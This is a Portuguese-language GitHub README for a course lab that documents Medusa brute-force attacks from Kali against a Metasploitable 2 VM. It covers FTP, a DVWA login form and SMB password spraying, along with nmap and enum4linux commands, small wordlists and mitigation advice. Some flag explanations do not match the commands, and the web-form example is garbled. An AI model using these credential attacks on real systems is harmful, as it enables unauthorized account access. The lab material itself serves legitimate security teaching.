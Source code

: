 **Projeto: Ataques de Força Bruta com Kali + Medusa (Ambiente Controlado)**

Este repositório contém a documentação do desafio DIO: montar um ambiente com Kali Linux e Metasploitable 2, usar a ferramenta Medusa para executar ataques de força bruta em serviços (FTP, formulários web, SMB), registrar comandos, wordlists simples, evidências e recomendações de mitigação. Tudo pensado para ambiente de teste controlado (VirtualBox-host-only) rede interna.

⚠️ **Aviso legal: execute estes testes apenas em ambientes controlados e com autorização explícita. Ataques contra sistemas que você não possui/permissão são ilegais.**

* Conteúdo do repositório
* README.md (este arquivo)
* commands.txt (todos os comandos usados)
* imagens (screenshots)

**Objetivos do projeto:**

1.  Configurar duas VMs (Kali e Metasploitable 2) no VirtualBox com rede host-only.
2.  Realizar ataques de força bruta com Medusa em FTP, formulário web e password spraying no SMB (com enumeração de usuários).
3.  Documentar wordlists, comandos, validação de acesso e recomendações de mitigação.
4.  Estrutura das VMs (configuração sugerida).
5.  Instalar VirtualBox.
6.  Criar rede Host-Only (ou Internal Network) em VirtualBox (ex: vboxnet0).
7.  VM Kali: adaptador 1 → NAT (internet, opcional para instalar pacotes), adaptador 2 → Host-Only vboxnet0 (IP 192.168.56.102).
8.  VM Metasploitable2: 1 adaptador → Host-Only vboxnet0 (IP 192.168.56.101).
9.  Verifique conectividade: no Kali, ping 192.168.56.101.
10. Kali Linux ( medusa, nmap, enum4linux).
11. Metasploitable 2 (contém serviços FTP, SMB, DVWA etc).
12. Medusa (audit tool para brute force; módulo ex.: ftp, http\_form, smbnt).

**Comandos - varredura inicial**

1. Descobrir serviços com nmap:

```bash
nmap -sV -p 21,22,80,139,445 192.168.56.101
```

**Ataque FTP com Medusa**

2. força bruta contra usuários conhecidos (ex: admin) com uma wordlist pequena.

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```

**Explicação das flags:**

-h host alvo
-u usuário único (use -U para arquivo de usuários)
-P caminho da wordlist de senhas
-M ftp módulo FTP
-T 6 threads (ajuste conforme ambiente)
-f encerra ao encontrar credenciais válidas

3. Validação, após encontrar credenciais faça login com ftp:

```bash
ftp 192.168.56.101
```

**Ataque a formulário web (DVWA) com Medusa (http_form)**

DVWA costuma ter login em dvwa/login.php. Exemplo de uso do módulo http_form (sintaxe pode variar conforme versão do Medusa; ajustar conforme sua instalação):

1. Exemplo de http_form (substitua os campos conforme o formulário real):

```bash
-m PAGE: medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
-m FORM: 'username=^USER^\&password=^PASS^\&Login=Login' \
-m 'FAIL=Login failed' -t 6
```

2. Validação, tente fazer login no navegador usando as credenciais encontradas.

**Password spraying em SMB (com enumeração de usuários)**

* Fluxo recomendado:
* Enumerar usuários (usar enum4linux)
* Fazer password spraying: testar um conjunto pequeno de senhas em muitos usuários (evita lockouts por tentativa excessiva em um único usuário).

1. Enumeração com enum4linux:

```bash
enum4linux -a 192.168.56.101 | tee enum4_output.txt
```

2. Crie wordlists conforme ajuste:

```bash
echo -e "user\nmsfadmin\nservice" > smb_users.txt

echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas spray.txt
```

3. Medusa smbnt (sintaxe genérica - ajuste conforme versão), Usando arquivo de usuários (-U) e uma pequena wordlist (-P):

```bash
medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```

* Os parâmetros -t 2 (threads) -T 50 (timeout em segundos)
* ferramentas SMB de brute‑force normalmente tentam combinações de usuário × senha. Se você fornece uma lista de usuários e uma lista de senhas, a ordem pode ser: vertical (por usuário): para cada usuário tenta muitas senhas; ou horizontal/spraying: para vários usuários tenta poucas senhas comuns.

4. Validação, se houver credenciais válidas, usar smbclient para acesso:

```bash
smbclient -L //192.168.56.20 -U msfadmin
```

**Recomendações de mitigação (boas práticas):**

* Política de senhas fortes: comprimento mínimo, complexidade, bloqueio após tentativas falhas.
* Rate-limiting e account lockout (com política para evitar lockouts errôneos).
* Autenticação multifator (MFA) onde possível.
* Monitoramento/alertas: IDS/IPS, logs de autenticação e alertas para muitas tentativas de login.
* Segregação de serviços e atualizações (manter serviços atualizados).
* Hardening: desabilitar serviços desnecessários; configurar FTP seguro (SFTP/FTPS) ou desativar FTP.
* Whitelist de IPs para serviços administrativos, quando aplicável.
* Educação: conscientizar sobre reutilização de senhas e engenharia social.

